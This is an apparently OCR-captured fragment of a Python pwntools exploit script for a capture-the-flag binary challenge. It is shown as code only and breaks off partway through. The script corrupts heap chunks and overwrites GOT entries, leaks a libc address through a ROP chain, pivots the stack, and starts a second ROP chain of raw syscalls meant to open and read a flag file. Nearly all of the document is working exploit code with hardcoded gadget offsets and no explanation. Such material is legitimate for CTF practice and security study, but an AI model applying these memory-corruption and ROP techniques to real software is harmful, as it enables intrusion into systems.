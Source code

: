 ```python
    delete(1)
    replace(0, b'\x11' * 0x100 + b'\xdd\xdd\xdd\xdd\xdd\xdd')
    delete(1)
    replace(0, b'\x22' * 0x100 + b'\xee\xee\xee\xee\xee\xee')
    delete(1)

    add_dirt(0x100, 2, p64(0xbeef0000010) + p64(0xdead0007ff8))
    add_dirt(0x100, 3, p64(0xbeef0000010) + p64(0xdead0007ff8))
    add_dirt(0x100, 4, p64(0xbeef0000010) + p64(setvbuf_got))
    add_dirt(0x20, 5, p64(0x4010f0 + 6) + p64(0x4017f7))
    r.sendline("-1")

    buf = 0x404800
    pop_rdi_ret = 0x401e8b
    pop_rsi_r15_ret = 0x401e89
    pop_rbp_ret = 0x4011f9
    read_got = 0x404048
    put_plt = 0x401030
    stderr_got = 0x404160
    leave_ret = 0x4012f7
    _csu = 0x401e82
    _csu2 = 0x401E68

    rop = flat(
        pop_rdi_ret, stderr_got,
        put_plt,

        _csu, 0, 1, 0, buf - 0x40, 0x150, read_got,
        _csu2,

        leave_ret,
        b'\xaa' * 0x30,
        pop_rbp_ret, buf - 0x8,
        leave_ret
    )

    r.recvuntil('Exploiting BOF is simple right? ;)\n')
    r.sendline(b'\xaa' * 0x40 + p64(buf - 8) + rop)
    libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ec5c0
    syscall_ret = libc + 0x66229
    pop_rdx_rbx_ret = libc + 0x162866
    pop_rsi_ret = libc + 0x27529
    pop_rax_ret = libc + 0x4a550
    mov_r10_rdx_jmp_rax = libc + 0x7b0cb
    flag = buf - 0x10
    pwn_path = buf - 0x40
    info(f"""
    libc: {hex(libc)}
    """)

    rop2 = flat(
        pop_rax_ret, 80,
        pop_rdi_ret, pwn_path,
        syscall_ret,

        pop_rdi_ret, -100,
        pop_rsi_ret, flag - 0x20,
        pop_rdx_rbx_ret, 0, 0,
        pop_rax_ret, pop_rax_ret,
        mov_r10_rdx_jmp_rax, 257,
        syscall_ret,

        # p1 -> leak file name
```